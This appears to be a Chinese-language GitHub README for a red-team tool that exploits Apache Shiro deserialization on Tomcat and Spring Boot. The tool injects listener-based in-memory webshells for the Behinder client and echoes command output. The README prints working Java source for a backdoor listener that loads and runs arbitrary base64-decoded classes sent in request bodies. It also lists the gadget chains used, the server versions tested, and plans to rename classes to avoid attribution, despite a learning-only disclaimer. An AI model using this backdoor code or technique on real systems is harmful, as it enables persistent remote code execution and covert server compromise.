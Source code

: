 # Dr4gonSword

**仅供交流学习漏洞原理,请勿用于非法用途**

- [Shiro](#shiro)
  + [使用方法](#----)
  + [利用链](#---)
  + [内存马和回显方法](#--------)
  + [本地测试过的中间件版本](#-----------)

- [更新记录](#----)
  * [0.0.3](#003)
  * [0.0.2](#002)
- [未来准备更新(可能)](#----------)
- [感谢](#--)

**仅供交流学习漏洞原理,请勿用于非法用途**

版本0.0.3

在红队中发现现有shiro利用工具有些时候会注入内存马失败,于是自己写下了这个小工具,也是为了更好地了解漏洞原理与利用方式

因为刚入门JAVA,所以肯定还有很多不足,代码也写得比较丑陋

目前只有Shiro,后续随着学习会应该加入更多漏洞(大概)

## Shiro

### 使用方法

点击Inject进行注入,然后才能连接冰蝎或者执行命令

连接冰蝎的时候加get参数stage=s

![2](2.png)

![1](1.png)

### 利用链

Commons-CollectionsK1_1 和K1的区别基本上只是我用的是InstantiateTransformer,K1用的是InvokerTransformer

总结:几乎一样

### 内存马和回显方法

使用listener注入,相比于使用servlet来说,不会被shiro拦,只要tomcat能解析的路径就能上线内存马,不用怕shirofilter匹配*的情况,例如P师傅的shirodemo环境(2021强网杯hard pentest,如下图)

![](./5.png)



并且defineclass直接加载了pageContext类(有的时候没有依赖导致注入失败)

另外我这边同一个listener同时实现命令执行回显和内存马,命令执行回显可以GBK编码

核心逻辑为实现一个Listener同时继承AbstractTranslet类并且实现ServletRequestListener接口来加载任意类并调用方法

```JAVA
public class Init extends AbstractTranslet implements ServletRequestListener  {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    public Init() throws Exception {
        super();
        super.namesArray = new String[]{"ccdr4gon"};
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();
        standardCtx.addApplicationEventListener(this);
    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {}
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        try {
            RequestFacade requestfacade= (RequestFacade) sre.getServletRequest();
            Field field = requestfacade.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request request = (Request) field.get(requestfacade);
            if (request.getParameter("stage").equals("init")) {
                StringBuilder sb = new StringBuilder("");
                BufferedReader br = request.getReader();
                String str;
                while ((str = br.readLine()) != null) {
                    sb.append(str);
                }
                byte[] payload = Base64.getDecoder().decode(sb.toString());
                Method defineClass = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                defineClass.setAccessible(true);
                Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), payload, 0, payload.length);
                clazz.newInstance();
            }
        }catch (Exception ignored){ }
    }
}
```

### 本地测试过的中间件版本

Tomcat 7.0.109 √

Tomcat 8.5.51 √

Tomcat 9.0.46 √

Springboot 2.3.5 √  <tomcat.version>9.0.39</tomcat.version> 

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version>

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version> shiro version 1.7.0 (gcm)

Tomcat 8.5.51 √ with commons-collections4 dependency

![3](./3.png)

![4](./4.png)

![6](./6.png)

# 更新记录

## 0.0.3

- Behinder内存马兼容性修复并且添加自定义密码(会生成一个随机密码)
- CommonsCollections4依赖的利用链(只是把.decorate改成了.lazyMap)
- 重构了controller生成payload部分的代码结构,使用factory

## 0.0.2 

- 添加Tomcat7利用链(tomcat7巨烦)
- okhttp的https证书全信任，删除了get请求的一些header（为了不触发header too large）
- 添加了GCM加密方式
- 其他记不到了的小修改

# 未来更新(可能)

- 依赖有点问题,目前我是直接把tomcat的lib全加到projectstructure里了
- 把类名改了,用下去的话总感觉会有一天接到溯源的电话
- shiro
  - ~~自定义Behinder的pass(现在还只能是默认的rebeyond,太惨了)~~ 0.0.3已更新
  -  ~~aes gcm加密方式(说实话也不知道有没有用)~~ 0.0.2已更新
  - ~~commons-collections4利用链~~  0.0.3已更新
  - commonsbeanutils利用链
- fastjson
- weblogic等等更多以后准备学习的JAVA漏洞
- 由于java流只能读取一次,okhttp库的IO目前处于能用就行的丑陋状态,之后看看怎么改改
- 看了比较新版的behinder之后这边考虑要不要把pagecontext删了(删了以后可能连不上旧版的behinder了)
- 一键清除所有listener

# 感谢

phithon

kingkk

j1anFen

Litch1

threedr3am

李三

LandGrey

Lucifaer

等公开发表过Tomcat内存马/回显以及Shiro利用方式文章的师傅

